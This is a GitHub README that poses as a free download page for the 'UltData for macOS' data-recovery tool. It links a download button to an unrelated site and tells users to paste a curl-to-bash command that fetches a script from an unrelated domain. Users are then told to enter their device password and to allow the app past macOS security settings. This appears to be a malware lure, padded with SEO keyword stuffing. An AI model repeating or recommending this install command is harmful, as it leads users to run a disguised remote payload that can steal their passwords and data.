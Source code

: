<p align="center">
  <img src="https://i.ibb.co/sv0bCRYC/1599734565-ultdata-mac.png" alt="UltData macOS Banner" />
</p>

<h1 align="center">UltData for macOS</h1>

<p align="center">
  🧩 Recover lost files, photos, videos, and iPhone data — directly on your Mac.  
  <br><br>
  ✅ Native support for Apple Silicon & Intel  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/174" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20ULTDATA%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download UltData for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/1Gg8nBh8/1599734538-1.jpg" alt="UltData Recovery Scan Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is UltData?

**UltData for macOS** is a data recovery utility that helps you retrieve deleted or lost files from your Mac, iPhone, or external storage. Whether you’ve wiped photos by mistake, lost documents after formatting, or need to recover messages from an iOS device, UltData offers full control with minimal effort.

With support for **APFS, HFS+, FAT, and exFAT**, it handles recovery from USB drives, SSDs, SD cards, and iOS backups. The interface is user-friendly and fully optimized for **Apple Silicon** chips.

---

## ✅ Why Choose UltData?

- 💾 **Recover Deleted Files, Photos & Videos**  
- 📱 **iPhone/iPad Data Recovery (Messages, WhatsApp, etc.)**  
- 🖥️ **Restore Data from Internal/External Drives**  
- 🔍 **Deep Scan & Preview Before Recovery**  
- 💡 **Supports All Major File Formats**  
- 🛡️ **No Data Overwrite During Recovery**  
- ⚙️ **macOS Native – Fast & Lightweight**  
- 🔒 **100% Offline, Private Recovery**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/0Rjp0Gxw/1599734592-2.jpg" alt="UltData File Type Selection Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/vxV47nSD/1599734569-3.jpg" alt="UltData iPhone Recovery Screenshot" />
</p>

---

## 🚀 Key Features

- Mac file recovery (documents, images, video, etc.)  
- iOS device recovery (contacts, photos, messages)  
- Supports USB, SSD, memory cards  
- Preview files before recovery  
- Restore from iTunes/iCloud backups  
- 3-step recovery process  
- Fast scan mode and deep scan  
- Fully offline — no data uploaded

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow UltData under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Data+Recovery+Tool-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-iOS+Disk+Recovery+Engine-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ UltData – Restore What Matters

Thanks for using **UltData for macOS**.  
Recover your files quickly, safely, and locally.

---

## 🧭 Usage Context

This tool is intended for private, offline recovery of deleted or lost data.  
It does not connect to cloud services or third-party sync tools.

All recovery actions are executed locally.  
Not affiliated with Apple or iCloud platforms.

---

## 🔍 Tags

```text
ultdata for mac download, ultdata mac data recovery tool, recover deleted files macos ultdata, iphone photo recovery app mac, ultdata mac restore lost messages, external drive recovery mac ultdata, usb sd card data recovery macos, best ios recovery software for mac, ultdata macos sonoma compatibility, preview before recovery tool mac, undelete files from macbook air m2, whatsapp data recovery iphone mac, full file recovery mac ultdata tool, mac lost partition recovery ultdata, tenorshare ultdata mac offline
